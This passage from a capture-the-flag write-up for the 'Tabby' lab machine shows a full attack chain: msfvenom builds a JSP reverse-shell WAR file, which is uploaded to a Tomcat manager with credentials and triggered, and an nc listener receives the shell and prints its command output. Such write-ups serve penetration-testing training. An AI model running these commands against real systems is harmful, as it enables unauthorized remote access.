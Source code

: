 Upload and install an application with reverse shell:

1. compile a war file, upload it, and trigger this app

```console
└─╼$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=1234 -f war -o shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
Saved as: shell.war

└─╼$ curl -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true" --upload-file shell.war
OK - Deployed application at context path [/shell]


└─╼$ curl http://10.10.10.194:8080/shell/
```

2. receive a reverse shell on local host

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.194] 40980
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
uname -a
Linux tabby 5.4.0-31-generic #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:8f:c4 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.194/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### tomcat -> ash

- linpeas output

![image-20240123063357657](./Tabby.assets/image-20240123063357657.png)
